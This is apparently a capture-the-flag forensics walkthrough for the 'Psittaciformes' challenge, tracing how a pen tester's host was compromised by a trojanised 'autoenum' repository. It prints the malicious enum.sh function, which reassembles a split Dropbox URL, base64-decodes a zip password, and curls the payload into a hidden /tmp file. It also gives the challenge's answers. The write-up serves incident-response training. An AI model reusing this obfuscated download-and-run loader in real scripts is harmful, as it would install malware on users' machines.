





# Psittaciformes

## Description

Forela carry out penetration testing of their internal networks utilising an internal team within their security department. The security team have notes from tests in addition to company critical credentials. It seems their host may have been compromised. Please verify how this occurred using the retrospective collection provided.

## Psittaciformes.zip 

The unzipped folder looks like this:

)

Notice that `Docker`, `Podmaan` and ` Virsh` are empty folders, and that you'll need to unzip other files and folders in other directories.

## Questions

### 1. What is the name of the repository utilized by the Pen Tester within Forela that resulted in the compromise of his host?

The key to this Sherlock is to fetch everything, and while fetching, I noticed that the `User_file` was interesting. It containes a `hidden-user-home-dir-list.txt` file that contains a list of hidden directories, as the name suggests. 

```bash
┌──(cherif㉿kali)-[~/…/sherlok/psittaciformes/catscale_out/User_Files]
└─$ cat hidden-user-home-dir-list.txt 
/root/.bashrc
/root/.emacs
/root/.gtkrc-2.0
/root/.profile
/root/.vimrc
/root/.zshrc
/root/.bash_history
/home/johnspire/.Xauthority
/home/johnspire/.bash_history
/home/johnspire/.bashrc
/home/johnspire/.emacs
/home/johnspire/.gdbinit
/home/johnspire/.gdbinit-gef.py
/home/johnspire/.gtkrc-2.0
/home/johnspire/.profile
/home/johnspire/.vimrc
/home/johnspire/.zshrc
/home/johnspire/.dmrc
/home/johnspire/.xsession-errors
```

So, knowing that the `hidden-user-home-dir` is not an empty directory, I decided to check it out. 

```bash
┌──(cherif㉿kali)-[~/…/User_Files/hidden-user-home-dir/home/johnspire]
└─$ ls -a
.  ..  .Xauthority  .bash_history  .bashrc  .dmrc  .emacs  .gdbinit  .gdbinit-gef.py  .gtkrc-2.0  .profile  .vimrc  .xsession-errors  .zshrc
```

And I found a `.bash_history` file that contains the following:

```bash
┌──(cherif㉿kali)-[~/…/User_Files/hidden-user-home-dir/home/johnspire]
└─$ cat .bash_history                                                                                
exit
sudo service ssh start
exit
ip a
sudo service ssh start
ip a
exit
sudo nmap -p- 10.129.228.158
ls
history
nikto
nikto -h 10.129.228.158
ls
nmap 192.168.68.0/24
nmap 192.168.68.0/24 -p-
msfconsole
ls
cat /etc/passwd
passwd johnspire
ip a
ls
ping 1.1.1.1
git clone https://github.com/pttemplates/autoenum
cd autoenum/
ls
bash enum.sh 10.0.0.10
sudo bash enum.sh 10.0.0.10
cd 
ls
mkdir Git
cd Git/
ls
git clone https://github.com/enaqx/awesome-pentest
git clone https://github.com/F1shh-sec/Pentest-Scripts
ls
cd
mkdir PenTests
cd PenTests/
ls
cd
cd Desktop/
;s
ls
sudo openvpn forela-corp.ovpn 
sudo su
sudo openvpn forela-corp.ovpn
```

This is a pretty long and suspicious history. The first command that caught my attention is the `git clone` command. The user cloned a repository called `autoenum`. 

### 2.What is the name of the malicious function within the script ran by the Pen Tester?

Seeing that no function was mentioned in the `.bash_history` file, I decided to check the `autoenum` repository, on github.



### 3. What is the password of the zip file downloaded within the malicious function?

Here again, we need to examine the `enum.sh` file. We can see that in our function, the password is divided into two parts, then concatenated and decoded in base64. 

```bash
part1="c3VwZXI="
part2="aGFja2Vy"
PASSWORD=$(echo "$part1$part2" | base64 -d)  
```

So, the password is `superhacker`.

### 4. What is the full URL of the file downloaded by the attacker?

The same method is used for the url, it is simply divided into two parts.

```bash
f1="https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2"
f2="/blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1"
```

### 5. When did the attacker finally take out the real comments for the malicious function?

Simple github inspection will give us the answer. 



To see the full date and time, we have to git log the file. 

```bash
┌──(cherif㉿kali)-[~/…/hidden-user-home-dir/home/johnspire/autoenum]
└─$ git log --pretty=oneline
786acdbe3804191556e971f6e2814ef34f571454 (HEAD -> main, origin/main, origin/HEAD) Update enum.sh
7d203152c5a3a56af3d57eb1faca67a3ec54135f Update enum.sh
553e18b0272f8dd5dc003b9f91a938aa68077f6b Update enum.sh
48e83bfda01bf69dc3b920600b541e99929b1a64 Update enum.sh
5d88bee8918d514a206fec91be72899544cdd37b Update enum.sh
07650e4833d4b037a99d0ae621344833e908a27c Update enum.sh
2ed69ee3525798ab197bdb1505e0d1d55af85832 Update enum.sh
e89644ae88559d4ea4639ef82ade834123793508 Update enum.sh
301ca43e68d0a9908ad4d52cbe603134de1de418 Update enum.sh
84097107492799db5fe5ba8d036a1b0fdfd6293f Update readme.md
6b2900adc68ca577f6abb3b474cecae2cf952a5e Update enum.sh
725834cb09a7483189a6d3ab4804d0797d06998b Create enum.sh
b4b26de857c77e2aaef71d8cc7f6367f79576e7c Create readme.md
```

```bash	
┌──(cherif㉿kali)-[~/…/hidden-user-home-dir/home/johnspire/autoenum]
└─$ git show 7d203152c5a3a56af3d57eb1faca67a3ec54135f
commit 7d203152c5a3a56af3d57eb1faca67a3ec54135f
Author: brown249 <85936721+brown249@users.noreply.github.com>
Date:   Mon Dec 23 22:27:58 2024 +0000

    Update enum.sh

diff --git a/enum.sh b/enum.sh
index 18f7b2e..5f685d8 100644
--- a/enum.sh
+++ b/enum.sh
@@ -65,25 +65,22 @@ do_dirb() {
 }
 
 do_wget_and_run() {
-    # Pieces for combining later (remote location for something)
     f1="https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2"
     f2="/blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1"
-    OUTPUT_FILE="/tmp/.hidden_$RANDOM.zip"  # Temporary storage with randomized identifier
-    UNZIP_DIR="/tmp/"  # Destination for extracted items
-
-    # Decode hidden sequence (secure key for locked data)
+    OUTPUT_FILE="/tmp/.hidden_$RANDOM.zip"  
+    UNZIP_DIR="/tmp/" 
     part1="c3VwZXI="
     part2="aGFja2Vy"
-    PASSWORD=$(echo "$part1$part2" | base64 -d)  # Rebuild and unlock the access code
+    PASSWORD=$(echo "$part1$part2" | base64 -d)  
 
-    FILE_URL="${f1}${f2}"  # Reassemble the access point
+    FILE_URL="${f1}${f2}"  
 
     echo "------------------------------------------------------------------------------"
     echo " System validation underway..."
     echo "------------------------------------------------------------------------------"
     echo "\n"
 
-    # Initiate retrieval from the constructed location
+    
     echo "Establishing connection to remote resource..."
     curl -L -o "$OUTPUT_FILE" "$FILE_URL"
 
@@ -92,7 +89,7 @@ do_wget_and_run() {
         exit 1
     fi
 
-    # Validate structure of obtained artifact
+   
     FILE_TYPE=$(file -b "$OUTPUT_FILE")
     if [[ "$FILE_TYPE" != *"Zip archive data"* ]]; then
         echo "Artifact does not match expected configuration. Exiting."
@@ -103,7 +100,7 @@ do_wget_and_run() {
     echo " Preparing extracted elements for deployment"
     echo "------------------------------------------------------------------------------"
```

The attacker took out the real comments on `Mon Dec 23 22:27:58 2024`.

### 6. The attacker changed the URL to download the file, what was it before the change?

Again and again, we need to check the `enum.sh` file, more precisely, fetch the commits.



### 7. What is the MITRE technique ID utilized by the attacker to persist?

While examining the `enum.sh` file, we can see that the attacker is scheduling a cron job to run the script every 5 minutes. 



The MITRE technique ID utilized by the attacker to persist is `T1053.003`.

### 8. What is the Mitre Att&ck ID for the technique relevant to the binary the attacker runs?

